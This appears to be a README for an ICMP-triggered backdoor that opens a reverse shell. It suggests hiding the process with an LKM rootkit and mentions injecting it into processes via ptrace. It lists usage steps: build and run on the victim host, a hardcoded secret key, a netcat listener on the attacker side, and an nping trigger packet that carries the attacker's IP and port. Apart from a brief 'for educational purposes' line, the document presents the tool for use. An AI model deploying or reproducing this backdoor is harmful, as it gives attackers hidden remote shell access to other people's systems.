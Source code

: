 # ICMP Backdoor
A cool ICMP listener and reverse shell. Ideally, should be used in conjunction with a LKM rootkit like [Diamorphine](https://github.com/m0nad/Diamorphine) to hide the process. Hypothetically, this could be turned into shellcode and injected into processes with `ptrace`, but I wouldn't recommend it since this implementation isn't really minimal.

*for educational purposes!*

# Usage
On the host machine, compile and run:
```
$ make
$ ./backdoor
```
You can also ensure:
```
$ ./backdoor -v
Secret Key:		wA@2mC!dq
Service Name:	        backdoor
Shell Path:		/bin/bash
```
On the attacker machine start a netcat listener:
```
$ nc -lnvp <port>
```
And send an ICMP packet to the victim:
```
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string 'wA@2mC!dq <attacker-ip> <port>'
```
